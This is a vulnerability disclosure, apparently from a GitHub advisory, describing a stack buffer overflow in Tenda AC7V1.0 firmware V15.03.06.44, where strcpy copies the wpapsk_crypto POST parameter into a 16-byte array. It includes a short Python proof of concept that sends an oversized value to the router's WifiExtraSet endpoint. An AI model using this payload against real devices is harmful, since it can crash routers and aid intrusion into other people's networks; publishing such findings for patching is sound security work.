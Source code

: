 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 has a stack overflow vulnerability located in the `fromSetWirelessRepeat` function. This function accepts the `wpapsk_crypto` parameter from a POST request by variable `wpapsk_crypto_0` and passes it to the `set_repeat5` function.

![image-20240318162246812](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162246812.png)

The array `wpapsk_cryptovalue_0` is fixed at 16 bytes. However, since the user has control over the input of `wpapsk_crypto`, the statement `strcpy(wpapsk_cryptovalue_0, wpapsk_crypto_0);` leads to a buffer overflow. The user-supplied `wpapsk_crypto` can exceed the capacity of the `wpapsk_cryptovalue_0` array, thus triggering this security vulnerability.

![image-20240318161848783](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318161848783.png)

![image-20240318162340724](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162340724.png)

## PoC

```python
import requests

IP = '192.168.84.101'
url = f"http://{IP}/goform/WifiExtraSet?"
# url += "wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600
url += "wifi_chkHz=0&wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

![image-20240318162448019](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162448019.png)
